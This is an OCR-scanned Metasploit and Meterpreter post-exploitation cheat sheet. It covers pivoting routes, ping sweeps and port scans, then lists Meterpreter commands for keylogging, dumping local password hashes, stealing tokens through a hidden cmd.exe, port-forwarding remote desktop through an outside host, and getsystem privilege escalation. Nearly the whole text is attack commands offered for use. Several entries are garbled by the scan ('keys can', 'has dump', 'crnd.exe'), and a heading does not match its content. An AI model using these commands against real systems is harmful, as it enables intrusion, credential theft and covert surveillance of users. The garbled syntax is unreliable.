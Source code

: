 ### Display the html banner in the internal network

```text
msf route add ip/range netmask meterpreter ID
msf use post/multi/gather/ping sweep # Set options and run
msf use /auxiliary/scanner/portscan/tcp # Set options and run
msf hosts-u-S x.x.x -R #Searches for x.x.x.' and sets
# RHOSTS
msf use auxiliary/scanner/http/http version # Set options and run
msf services -v -p 80-S x.x.x -R - #Displays IPs x.x.x.' with port
#80 open
```

## Meterpreter

| **Command** | **Explanation** |
| :--- | :--- |
| Help | List of available commands
| sysinfo | Display system information
| p.s List of processes
| getpid | List of available PID |
| upload file C:\Program Files\ | Upload file
| download file | Get the file
| reg command | Interaction with the registry
| rev2self | Back to main user
| shell | Transfer to interactive shell
| migrate PID | Change to another PID |
| background | The current process behind the background
| keys can \(start\|stop\|dump\) | Start/stop/delete keylogger |
| execute -f cmd.exe -i | Run cmd.exe and interact with it
| execute -f crnd.exe -i -H -t | Run cmd.exe as a hidden process and get all the tokens
| has dump | Get all local hashes
| run script | Running the script \(/scripts/meterpreter\) |
| port fwd \[add I delete\] -lL 127.0.0.1 443 -r 3.3.3.3 -p 3389 | Create port forward on port 3389 in the current session and remote desktop access on port 443 |

### Increasing access level

```text
use priv
getsystem
```
